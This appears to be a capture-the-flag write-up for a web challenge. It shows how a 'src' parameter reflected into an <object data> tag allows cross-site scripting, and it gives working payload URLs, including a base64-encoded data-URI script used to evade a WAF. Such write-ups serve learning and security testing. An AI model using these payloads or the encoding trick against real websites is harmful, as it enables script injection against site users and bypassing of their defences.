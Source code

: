 # XSS_NSA_IMAGE

In the home page we found an image clickable.

Here we can see this in the url:

```
/?page=media&src=nsa
```

When we set the value of src to 'test' we have an image "wrong answer" and the parameter is stored here:

```
<object data="test"></object>
```

We can execute some javascript using:

```
/?page=media&src=data:text/html, <script>alert("xss")</script>
```

But we don't get the flag. We use base64 with the same payload to avoid WAF and that works:

```
/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgieHNzIik7PC9zY3JpcHQ=
```
